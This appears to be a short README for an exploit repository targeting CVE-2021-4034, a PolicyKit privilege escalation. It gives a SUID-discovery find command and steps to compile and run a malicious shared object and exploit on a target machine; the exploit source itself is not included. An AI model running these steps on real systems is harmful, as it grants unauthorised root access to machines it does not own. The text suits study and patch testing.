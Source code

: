 # CVE-2021-4034

## PolicyKit-1 0.105-31 - Privilege Escalation

## discovery

```bash
find / -perm -u=s -type f 2>/dev/null
/usr/lib/policykit-1/polkit-agent-helper-1
```

## usage

copy evil-so.c exploit.c to the target machine.

```bash
gcc -shared -o evil.so -fPIC evil-so.c
gcc exploit.c -o exploit
./exploit
```
